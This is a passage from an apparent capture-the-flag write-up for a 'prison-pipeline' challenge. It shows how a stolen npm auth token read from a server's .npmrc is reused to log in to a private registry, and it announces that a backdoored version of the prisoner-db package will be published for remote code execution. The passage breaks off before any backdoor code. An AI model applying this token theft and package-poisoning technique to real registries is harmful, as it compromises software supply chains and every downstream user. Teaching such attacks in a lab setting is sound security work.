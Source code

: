 The `npm` cli was run under the linux `node` username . We can read the auth token stored by the `npm` cli from  the `/home/node/.npmrc` file:

![image-20240523132446435](images/official_writeup/image-20240523132446435.png)



From the [config/nginx.conf](config/nginx.conf) file, the `registry.prison-pipeline.htb` hostname is defined to reverse proxy traffic to the registry service:

```nginx
server {
    listen 1337;
    server_name registry.prison-pipeline.htb;

    location / {
        proxy_pass http://localhost:4873/;
        proxy_set_header Host $host:$server_port;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;
        proxy_set_header X-NginX-Proxy true;
    }
}
```

We can edit the exfiltrated `.npmrc` content to reflect the host and port of the challenge and save it in our own `~/.npmrc` file:

```ini
//registry.prison-pipeline.htb:1337/:_authToken="ODk3ODFjODRiYWY3M2Y0M2I3N2JkYTNlZmJlZmQ4ZTA6MDcyNDBiNGM2MmI5OThhYjNjN2U2OGZkMzcxYmRmNjhkNGVlZWM3YjdlOGNiMjFiODljNzAwZGMyNzA0NmFkNDE5OTM4YTdkNDc2ZDlkYzE3Yg=="
```

We also have to add an entry to the `/etc/hosts` file to resolve the hostname to the challenge IP address:

```init
127.0.0.1	localhost registry.prison-pipeline.htb
```

We can verify that the auth token is working properly by running the `npm whoami` command:

```sh
npm --registry=http://registry.prison-pipeline.htb:1337 whoami

# registry
```

We now have access to the private registry account on the challenge registry.



### Publishing Malicious Package Version for RCE

With access to the publishing account of the `prisoner-db` package, we can now craft a malicious version of the package and release it as a newer version to trigger updates. We will implement a backdoor in the  `importPrisoner` function defined in the  [prisoner-db/index.js](challenge/prisoner-db/index.js) file:
